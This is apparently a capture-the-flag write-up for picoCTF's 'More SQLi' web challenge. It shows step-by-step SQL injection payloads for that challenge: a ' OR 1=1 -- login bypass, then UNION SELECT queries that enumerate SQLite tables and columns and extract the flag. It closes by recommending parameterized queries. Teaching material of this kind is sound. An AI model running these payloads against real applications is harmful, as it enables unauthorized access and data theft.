




# More SQLi

**Platform:** picoCTF / CyLab 2023
**Category:** Web Exploitation
**Difficulty:** Medium
**Author:** Mubarak Mikail
**Challenge Link:** [More SQLi](https://learn.cylabacademy.org/library/358?page=1&search=sq&event=72)

---

## Challenge Description

> Can you find the flag on this website?

**Note:** After launching the instance, a vulnerable web application is provided.

### Hint

> SQLite

---

# Objective

* Bypass the login page using SQL Injection.
* Determine the database structure.
* Enumerate tables and columns.
* Extract the flag from the database.

---

# Background

## UNION-Based SQL Injection

A UNION-based SQL Injection allows an attacker to combine the results of the original SQL query with the results of another query.

Example:

```sql
SELECT column1, column2 FROM table1
UNION
SELECT column1, column2 FROM table2;
```

For the attack to work:

* Both queries must return the same number of columns.
* The data types of corresponding columns must be compatible.

Since the challenge hint specifies SQLite, SQLite-specific functions can be used during enumeration.

---

# Initial Analysis

The application contains two features:

* Login page
* Search functionality

To understand how the login works, a test login was performed using arbitrary credentials.

The application displayed the SQL query used by the server.



One important observation is that the application constructs the query using the **password before the username**, which influences how the login bypass payload should be injected.

---

# Solution

## Step 1 - Bypass Authentication

Inject the following payload into the **Password** field:

```sql
' OR 1=1 --
```

Username:

```text
admin
```

Since `OR 1=1` always evaluates to true and `--` comments out the remainder of the query, authentication is successfully bypassed.

> **Note:** The username can be any value because everything after `--` is ignored by the SQL parser.

---

## Step 2 - Determine the Number of Columns

The search feature is vulnerable to SQL Injection.

Begin by testing whether the original query returns one column:

```sql
Algiers' UNION SELECT NULL --
```



No results are returned, indicating the query contains more than one column.

---

Test two columns:

```sql
Algiers' UNION SELECT NULL, NULL --
```

Again, no results are returned.

---

Test three columns:

```sql
Algiers' UNION SELECT NULL, NULL, NULL --
```

The query now succeeds and returns the expected result.

This confirms that the original query contains **three columns**.

---

## Step 3 - Enumerate Database Tables

The hint specifies SQLite.

SQLite stores table metadata inside the `sqlite_master` table.

The following payload lists all available tables:

```sql
Algiers' UNION SELECT NULL, NULL, name
FROM sqlite_master
WHERE type='table' --
```



Among the returned tables, **more_table** appears to contain the challenge data.

---

## Step 4 - Enumerate Columns

SQLite provides the `PRAGMA_table_info()` function to display a table's columns.

```sql
Algiers' UNION SELECT NULL, NULL, name
FROM pragma_table_info('more_table') --
```

The output reveals a column named:

```text
flag
```



---

## Step 5 - Retrieve the Flag

Read the contents of the `flag` column:

```sql
Algiers' UNION SELECT NULL, NULL, flag
FROM more_table --
```

The query returns the flag.

---

# Flag

```text
picoCTF{REDACTED}
```

---

# Why the Attack Works

The application fails to properly sanitize user input before including it in SQL queries.

This allows an attacker to:

1. Inject arbitrary SQL statements.
2. Combine results using the `UNION` operator.
3. Enumerate database tables.
4. Discover table columns.
5. Extract sensitive data from the database.

The challenge specifically uses SQLite, making metadata available through:

* `sqlite_master`
* `pragma_table_info()`

These features make database enumeration straightforward once SQL Injection has been achieved.

---

# Key Takeaways

* SQL Injection remains one of the most critical web application vulnerabilities.
* `UNION SELECT` attacks require matching the number of columns in the original query.
* SQLite stores schema information inside the `sqlite_master` table.
* `pragma_table_info()` is useful for enumerating table columns.
* Error messages and application behavior often provide valuable clues during exploitation.
* Parameterized queries and prepared statements are the recommended defenses against SQL Injection.

---

# Tools Used

* Web Browser
* SQLite
* UNION-based SQL Injection
* Linux Terminal (optional)
